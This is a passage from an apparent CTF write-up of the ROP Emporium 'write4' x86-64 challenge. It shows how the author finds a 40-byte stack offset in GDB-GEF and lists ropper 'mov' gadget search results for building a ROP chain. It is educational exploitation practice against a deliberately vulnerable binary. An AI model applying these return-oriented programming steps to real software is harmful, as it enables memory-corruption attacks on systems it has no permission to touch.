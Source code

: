 ![GDB-GEF RSP Overwritten](/assets/images/ROP_Emporium/write4/overwritten_rsp.png)

The output from `GDB-GEF` after the crash showed me that the `RSP` register now pointed too a string starting with `faaaaaaagaaaaaaa`. Using the command `pattern offset faaaaaaagaaaaaaa`, it calculated that the offset is **40 bytes**.

### Step 3: Locating Important Addresses and Gadgets
From the `x86` binary, I know that I need to find:

- A gadget to move a value from one register to another
- A gadget to pop those registers
- The address of the print_file() function
- The address of the .data section

However, for the `x86-64` binary, when passing arguments to a function, the arguments need to be passed via a register. Specifically, `RDI`, `RSI`, and `RDX` (`RCX`, `R8` and `R9` are also be used, but most commonly it is the first 3 registers mentioned). As I only need to pass a single argument to the `print_file()` function, I needed to find a gadget that **pops** the `RDI` register.

For locating the gadgets, I used `ropper` again, searching for the key operators.

```
$ ropper -f ./write4 --search "mov" 

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: ./write4
0x00000000004005e2: mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400606: mov dword ptr [rbp + 0x48], edx; mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret; 
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400610: mov eax, 0; pop rbp; ret; 
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; 
```